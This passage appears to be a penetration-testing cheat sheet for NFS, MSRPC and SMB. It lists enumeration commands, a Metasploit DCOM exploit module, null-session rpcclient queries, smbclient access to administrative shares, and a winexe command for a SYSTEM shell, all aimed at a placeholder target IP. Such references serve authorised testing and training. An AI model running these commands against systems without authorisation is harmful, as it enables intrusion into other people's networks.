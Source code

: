 ```
INSERTRPCBIND
```

```
rpcinfo -p INSERTIPADDRESS

showmount -e INSERTIPADDRESS 

mkdir /mnt/<DIR>
mount -t nfs INSERTIPADDRESS:<Remote DIR> /mnt/<DIR>/
```

Information on NFS enumeration and exploiting NFS

[NFS Enumeration and Exploiting Misconfiguration](https://medium.com/@joe_norton/exploiting-metasploitable-without-metasploit-nfs-enumeration-and-exploiting-misconfiguration-86504ccd15b9)

[Vulnix Writeup](https://blog.christophetd.fr/write-up-vulnix/)

Note: You may have to match your permissions to the permissions on the share. See Vulnix.

### Port 135 - MSRPC

Some versions are vulnerable.

```
nmap INSERTIPADDRESS --script=msrpc-enum
```

Exploit:

```
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

### Port 139/445 - SMB

- Name:
- Version:
- Domain/workgroup name:
- Domain-sid:
- Allows unauthenticated login:


```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445

enum4linux -a INSERTIPADDRESS

rpcclient -U "" INSERTIPADDRESS
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

smbclient -L INSERTIPADDRESS
smbclient //INSERTIPADDRESS/tmp
smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
smbclient //INSERTIPADDRESS/ipc$ -U john
smbclient //INSERTIPADDRESS/admin$ -U john

Log in with shell:
winexe -U username //INSERTIPADDRESS "cmd.exe" --system

```